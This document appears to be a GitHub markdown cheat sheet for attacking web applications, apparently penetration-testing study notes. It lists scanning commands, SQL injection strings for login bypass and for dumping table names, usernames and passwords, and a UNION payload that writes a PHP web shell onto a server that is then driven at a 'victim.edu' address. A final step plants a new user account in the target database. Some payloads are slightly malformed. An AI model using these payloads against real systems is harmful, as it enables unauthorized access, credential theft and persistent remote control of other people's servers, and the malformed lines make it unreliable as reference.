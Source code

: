 <p align="right">
  <a href="/README.md">Home Page</a> |
  <a href="/CheatSheets/web-apps.md#table-of-contents">Top of Page</a> |
  <a href="/CheatSheets/web-apps.md#bottom-of-page">Bottom of Page</a>
</p>

# Cheatsheets - Web Apps
## Table of Contents
* [Enumerate](#enumerate)
* [Exploit](#exploit)
* [Explore](#explore)
* [Effect](#effect)

## Enumerate
```bash
dirb $TARGET -r -z10 # recursive; wait 10 milliseconds between delays
```
```bash
sudo apt install dirsearch
dirsearch -u $TARGET --o scans/$TARGET-dirsearch
```
```bash
nikto -h $TARGET -maxtime=30s -o scans/$TARGET-nikto-30seconds.txt
nikto -h $TARGET -T 2 # scan for misconfiguration vulnerabilities
nikto -h $TARGET -T 9 # scan for SQL injection vulnerabilities
```

Finding SQL Injection Vulnerabilities
```bash
` # single-quote
# the resulting error may indicate the underlying web server software, database software, and server OS 
```

## Exploit
SQL Comments
```
# MySQL, MariaDB
-- Oracle
/* Oracle
*/ Oracle
```

SQL Injection Attacks
```
# bypass auth (put SQLi in the username field; username might be required so supply that at least)
victor' or 1=1; -- 

# bypass auth (put SQLi in the username field; the LIMIT keyword might be necessary for some databases)
victor' or 1=1 LIMIT=1; -- 

' ORDER BY 1 # sort results based on the values of the first column

' UNION ALL SELECT 1,2,3 # return all rows 
' UNION ALL SELECT 1,2 @@version # return the database version
' UNION ALL SELECT 1,2 user() # return the acct running the database

# return all table names
' UNION ALL SELECT 1,2 table_name FROM information_schema.tables 

# return all column names
' UNION ALL SELECT 1,2 column_name FROM information_schema.columns WHERE table_name = 'usertbl' 

# return records from users table; put users in column 2, password in column 3 of output
' UNION ALL SELECT 1, username, password FROM usertbl 

# invoke PHP and echo PHP code into a file
' UNION ALL SELECT 1, 2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE '/var/www/html/webshell.php'
firefox http://victim.edu/webshell.php?cmd=whoami # navigate to and use the above LFI
```

## Explore
SQL Database Queries
```sql
SELECT * FROM targetdb.usertbl; # database.table
USE targetdb;
SELECT * FROM usertbl;
```

## Effect
Add a new user to a SQL database
```sql
INSERT INTO targetdb.usertbl(username, password) VALUES ('victor','please');
```

<p align="right">
  <a href="/README.md">Home Page</a> |
  <a href="/CheatSheets/web-apps.md#table-of-contents">Top of Page</a> |
  <a href="/CheatSheets/web-apps.md#bottom-of-page">Bottom of Page</a>
</p>

## Bottom of Page
